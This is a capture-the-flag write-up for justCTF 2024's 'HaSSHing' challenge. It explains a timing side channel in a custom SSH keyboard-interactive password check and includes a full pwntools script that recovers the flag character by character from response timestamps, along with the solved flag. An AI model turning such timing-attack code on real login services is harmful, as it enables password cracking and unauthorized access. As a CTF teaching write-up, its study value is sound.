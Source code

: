 Author: 0x6fe1be2

Version 19-06-24

# [justCTF 2024 teaser](https://ctftime.org/event/2342) (15.06-16.06)

## HaSSHing
Category: MISC, PWN

Points: 174 (64 Solves)

Teammates: Popax21

> Interact with the keyboard or not, I don’t care; as only the flag will let you in - no chance of hash collisions here!
> The flag consists only of the following characters: "CFT_cdhjlnstuw{}" and digits. Each character may appear multiple times.
> Challenged provided by Trail of Bits and authored by elopez.
> ```bash
> ssh hasshing.nc.jctf.pro -l ctf -p 1337
> ```


### TL;DR

The ssh connection gives very precise times for the output log, that can be used as a side channel to crack the password byte for byte.

### Overview
No Files :,\

Using verbose mode we can get some interesting information

```
ssh hasshing.nc.jctf.pro -l ctf -p 1337 -vvv
```

notably

```
debug1: compat_banner: no match: paramiko_2.9.3                                                                                                                                                                                        
...
debug1: Authentications that can continue: keyboard-interactive,password
debug3: start over, passed a different list keyboard-interactive,password
debug3: preferred publickey,keyboard-interactive,password
debug3: authmethod_lookup keyboard-interactive
debug3: remaining preferred: password
debug3: authmethod_is_enabled keyboard-interactive
debug1: Next authentication method: keyboard-interactive
debug2: userauth_kbdint
```

`paramiko` might sound familiar to some, basically it's a big python ssh module that is used in project like `pwntools`. Also note that 2.9.3 is very outdated which might be interesting.

The used authentication method is `keyboard-interactive`.

Let's look at the source code for the interactive authentication code:

[server.py](https://github.com/paramiko/paramiko/blob/51eb55debf2ebfe56f38378005439a029a48225f/paramiko/server.py#L182)
```python
    def check_auth_interactive(self, username, submethods):
        """
        Begin an interactive authentication challenge, if supported.  You
        should override this method in server mode if you want to support the
        ``"keyboard-interactive"`` auth type, which requires you to send a
        series of questions for the client to answer.

        Return ``AUTH_FAILED`` if this auth method isn't supported.  Otherwise,
        you should return an `.InteractiveQuery` object containing the prompts
        and instructions for the user.  The response will be sent via a call
        to `check_auth_interactive_response`.

        The default implementation always returns ``AUTH_FAILED``.

        :param str username: the username of the authenticating client
        :param str submethods:
            a comma-separated list of methods preferred by the client (usually
            empty)
        :return:
            ``AUTH_FAILED`` if this auth method isn't supported; otherwise an
            object containing queries for the user
        :rtype: int or `.InteractiveQuery`
        """
        return AUTH_FAILED
```


Interesting, here isn't an implementation for this, meaning that the challenge creators must have created their own. Let's play around with it:

### Vulnerability

```
[keyboard-interactive authentication mode]
Server time is 2024-06-19 08:20:25.102303
(ctf@hasshing.nc.jctf.pro) password: a
[2024-06-19 08:20:25.845872] Checking password...
[2024-06-19 08:20:25.896760] That wasn't it, sorry. Try again.
(ctf@hasshing.nc.jctf.pro) password: j
[2024-06-19 08:20:28.040791] Checking password...
[2024-06-19 08:20:28.141839] That wasn't it, sorry. Try again.
(ctf@hasshing.nc.jctf.pro) password: 
```

We can see that the charactor `a` takes about 0.05s but `j` takes 0.1, which we know is the prefix of the flag, so let's use this information to write an exploit.


### Exploit


Thanks to Popax21 for writing the exploit and getting the flag during the CTF. I slightly modified it for the writeup.

Flag: `justCTF{s1d3ch4nn3ls_4tw_79828}`

<details>

```python
from pwn import *
import datetime
import re as regex

linfo = lambda x: log.info(x)
lwarn = lambda x: log.warn(x)
lerror = lambda x: log.error(x)
lprog = lambda x: log.progress(x)

byt = lambda x: x if isinstance(x, bytes) else x.encode() if isinstance(x, str) else repr(x).encode()
phex = lambda x, y='': print(y + hex(x))
lhex = lambda x, y='': linfo(y + hex(x))
pad = lambda x, s=8, v=b'\0', o='r': byt(x).ljust(s, byt(v)) if o == 'r' else byt(x).rjust(s, byt(v))
padhex = lambda x, s=None: pad(hex(x)[2:],((x.bit_length()//8)+1)*2 if s is None else s, b'0', 'l')
upad = lambda x: u64(pad(x))
tob = lambda x: bytes.fromhex(padhex(x).decode())

gelf = lambda elf=None: elf if elf else exe
srh = lambda x, elf=None: gelf(elf).search(byt(x)).__next__()
sasm = lambda x, elf=None: gelf(elf).search(asm(x), executable=True).__next__()
lsrh = lambda x: srh(x, libc)
lasm = lambda x: sasm(x, libc)

cyc = lambda x: cyclic(x)
cfd = lambda x: cyclic_find(x)
cto = lambda x: cyc(cfd(x))

t = None
gt = lambda at=None: at if at else t
sl = lambda x, t=None: gt(t).sendline(byt(x))
se = lambda x, t=None: gt(t).send(byt(x))
sla = lambda x, y, t=None: gt(t).sendlineafter(byt(x), byt(y))
sa = lambda x, y, t=None: gt(t).sendafter(byt(x), byt(y))
ra = lambda t=None: gt(t).recvall()
rl = lambda t=None: gt(t).recvline()
rls = lambda t=None: rl(t)[:-1]
re = lambda x, t=None: gt(t).recv(x)
ru = lambda x, t=None: gt(t).recvuntil(byt(x))
it = lambda t=None: gt(t).interactive()
cl = lambda t=None: gt(t).close()


THRESHOLD = 25000
CHARS = "_cdhjlnstuw" + string.digits + "{}CFT"

def extract_time(l):
    m = regex.match(rb"\[(.*)\]", l)
    assert m
    return datetime.datetime.fromisoformat(m.group(1).decode())

# justCTF{s1d3ch4nn3ls_4tw_79828}
pw = ""
prog = lprog("Cracking password")
info = lprog("Cracking info")
retries = 0

while True:
  context.log_level = 'error'
  t = process("ssh hasshing.nc.jctf.pro -l ctf -p 1337".split(), raw=True, stdin=process.PTY)
  context.log_level = 'info'
  try:
    while True:
      mc, mt = None, None
      for c in CHARS:

        prog.status(f"trying '%s%c'", pw, c)

        sla("(ctf@hasshing.nc.jctf.pro) password:", pw + c)

        rl()
        l = rl()

        if b"Checking password..." not in l and c == '}':
          prog.success(pw + c)
          cl()
          exit(0)

        start_time = extract_time(l)

        err_time = extract_time(rl())

        dt = err_time - start_time

        if mt is None or mt < dt:
          ot = mt
          mc = c
          mt = dt

        ddt = mt - min(dt, ot or dt)
        info.status(f"best(%c): %d, crnt: %d, delta: %d", 
                    mc, mt.microseconds, dt.microseconds, ddt.microseconds)

        if ddt.microseconds > THRESHOLD:
          break 

      if ddt.microseconds < THRESHOLD:
        if retries > 0:
          info.failure('failed twice sth is wrong')
          exit(1)
        info.status("retrying, very low delta '%s': %d", pw, ddt.microseconds)
        retries += 1
        continue

      pw += mc
      retries = 0

  except Exception:
    info.status('EOF restarting connection')
    context.log_level = 'error'
    cl()
```

</details>
